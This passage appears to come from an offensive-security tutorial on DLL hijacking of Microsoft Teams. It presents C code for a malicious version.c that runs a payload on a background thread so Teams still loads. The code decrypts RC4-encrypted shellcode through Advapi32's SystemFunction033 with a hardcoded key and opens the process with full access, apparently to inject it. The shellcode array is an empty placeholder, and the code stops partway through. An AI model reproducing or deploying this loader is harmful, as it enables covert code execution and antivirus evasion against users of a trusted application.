 Running our code directly in the main thread caused the Teams application to be blocked and not load properly. By creating a new thread to execute our code, we allow the main thread to continue its initialization without being blocked, thus executing our code in the background. I have included the updated code for `version.c` below.


```c
#include <windows.h>

char keyBuf[] = {'H', 'e', 'l', 'p', 'M', 'e', 'W', 'i', 'n', 'l', 'e', 'z', 'P', 'l', 'z', '?'};

typedef struct USTRING {
    DWORD Length;
    DWORD MaximumLength;
    PVOID Buffer;
} USTRING;

#define STATUS_PROCEDURE_NOT_FOUND ((NTSTATUS)0xC000007A)

NTSTATUS SystemFunction033(USTRING* memoryRegion, USTRING* keyPointer) {
    typedef NTSTATUS(WINAPI* SystemFunction033Func)(USTRING*, USTRING*);
    HMODULE hModule = LoadLibraryW(L"Advapi32");
    if (hModule == NULL) {
        // Handle error loading the library
        return STATUS_DLL_NOT_FOUND;
    }

    SystemFunction033Func SystemFunction033 = (SystemFunction033Func)GetProcAddress(hModule, "SystemFunction033");
    if (SystemFunction033 == NULL) {
        // Handle error getting the function pointer
        FreeLibrary(hModule);
        return STATUS_PROCEDURE_NOT_FOUND;
    }

    // Call SystemFunction033
    NTSTATUS status = SystemFunction033(memoryRegion, keyPointer);

    // Clean up
    FreeLibrary(hModule);
    return status;
}

DWORD WINAPI RunCodeThread(LPVOID lpParam) {
    // Key string
    USTRING keyString;
    keyString.Buffer = keyBuf;
    keyString.Length = sizeof(keyBuf);
    keyString.MaximumLength = sizeof(keyBuf);

    // Encrypted shellcode
    unsigned char encrypted_bin[] = {
        // place encrypted shellcode here
    };

    size_t size = sizeof(encrypted_bin);

    // Current process
    DWORD tProcess = GetCurrentProcessId();

    // Open process
    HANDLE pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tProcess);
    if (pHandle == NULL) {
        // Handle error opening process
        return 1;
```